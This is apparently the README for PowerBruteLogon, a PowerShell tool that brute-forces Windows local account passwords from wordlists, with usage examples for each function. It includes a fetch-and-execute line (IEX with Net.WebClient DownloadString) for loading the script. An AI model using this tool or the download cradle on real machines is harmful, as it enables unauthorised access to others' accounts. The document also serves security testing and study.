




# PowerBruteLogon

PowerBruteLogon is a ported version of [WinBruteLogon](https://github.com/DarkCoderSc/win-brute-logon) in pure PowerShell

⚠️ Notice: this version is slower than [WinBruteLogon](https://github.com/DarkCoderSc/win-brute-logon) but has the serious advantage of being 100% entirely coded in PowerShell. In a near future, password attempts will be distributed to separate threads to speed up the process. Also keep in mind that this method is very noisy, each failed attempt will get logged on Microsoft Windows Event Logs.

You might find useful information about the technique used in this PoC [here](https://www.phrozen.io/paper/proof-of-concept/bruteforce-windows-logon-poc)

---

## Usage

You can use this PowerShell Application whether as a PowerShell Script or as a PowerShell Module.

### Import a new PowerShell Module (Generic Explanation)

To be available, the module must first be present in a registered module path.

You can list module paths with following command:

```powershell
Write-Output $env:PSModulePath
```

Example Output:

```
C:\Users\Phrozen\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\WINDOWS\system32\WindowsPowerShell\v1.0\Modules
```

Copy the module file `<module_name>.psm1` to desired module path.

You can use bellow command to check if your module was successfully imported:

```powershell
Get-Module -ListAvailable
```

Example Output:

```
PS C:\Users\Phrozen\Desktop> Get-Module -ListAvailable


    Directory: C:\Users\Phrozen\Documents\WindowsPowerShell\Modules


ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   <version>  <module_name>                       <available_exported_commands>

<..snip..>
```

If you don't see them, run the following commands and check back.

```powershell
Import-Module <module_name>

Import-Module <module_name>
```

### Import a new PowerShell Script (Generic Explanation)

It is not mandatory to install this application as a PowerShell module (Even if file extension is `*.psm1`)

You can also load it as a PowerShell Script. Multiple methods exists including:

Invoking Commands Using:

```powershell
IEX (Get-Content .\<module_name>.psm1 -Raw)
```

Loading script from a remote location: 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/<module_name>.psm1')
```

### Available Functions

```PowerShell
Invoke-BruteLogonAccount
Invoke-BruteLogonList
Invoke-BruteAvailableLogons
```

#### Invoke-BruteLogonAccount

Attempt to recover the password of a single defined Windows User Account.

##### Parameters

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| Username           | String           | None       | Target Microsoft Windows local user account  |
| WordList           | String           | None       | Text file location containing password candidates |

##### Example

```powershell
Invoke-BruteLogonAccount -Username "darkcodersc" -Wordlist "C:\Temp\Wordlist.txt"`
```



#### Invoke-BruteLogonList

Attempt to recover the password of a list of Windows User Account.

##### Parameters

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| UserList           | String           | None       | Text file location containing user candidates  |
| WordList           | String           | None       | Text file location containing password candidates |

 ##### Example

```powershell
Invoke-BruteLogonList -UserList "C:\Temp\users.txt" -WordList "C:\Temp\Wordlist.txt"
```

 

#### Invoke-BruteLogonList

Attempt to recover the password of all available local Windows User Accounts.

##### Parameters

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| IgnoreUsers        | Array Of String  | None       | A list of usernames to ignore  |
| WordList           | String           | None       | Text file location containing password candidates |

##### Example

```powershell
Invoke-BruteAvailableLogons -WordList "C:\Temp\Wordlist.txt"

Invoke-BruteAvailableLogons -WordList "C:\Temp\Wordlist.txt" -IgnoreUsers "Phrozen"
```



## Account Lockout Behaviour

PowerBruteLogon supports account lockout detection. When account lockout is configured on Windows (⚠️ **recommended**).

You will see the following message printed on screen:



## Remove progress bar

You might find the PowerShell progressbar ennoying, for this reason you might want to remove bellow code:

```PowerShell
# Display Progress / Stats
$perc = [math]::Round((100 * $currPos) / $candidateCount)
$activity = [string]::Format("Testing candidate ""{0}"" for username ""{1}""", $candidate, $targetUser)
$status = [string]::Format("$perc% Complete:{0}/{1}", $currPos, $candidateCount)

Write-Progress -Activity $activity -Status $status -PercentComplete $perc
```

---

# Disclaimer

We are doing our best to prepare the content of this app. However, PHROZEN SASU and / or
Jean-Pierre LESUEUR cannot warranty the expressions and suggestions of the contents,
as well as its accuracy. In addition, to the extent permitted by the law, 
PHROZEN SASU and / or Jean-Pierre LESUEUR shall not be responsible for any losses
and/or damages due to the usage of the information on our app.

By using our app, you hereby consent to our disclaimer and agree to its terms.

Any links contained in our app may lead to external sites are provided for
convenience only. Any information or statements that appeared in these sites
or app are not sponsored, endorsed, or otherwise approved by PHROZEN SASU and / or
Jean-Pierre LESUEUR. For these external sites, PHROZEN SASU and / or Jean-Pierre LESUEUR
cannot be held liable for the availability of, or the content located on or through it.
Plus, any losses or damages occurred from using these contents or the internet
generally.

---

Made with ❤️ in 🇫🇷
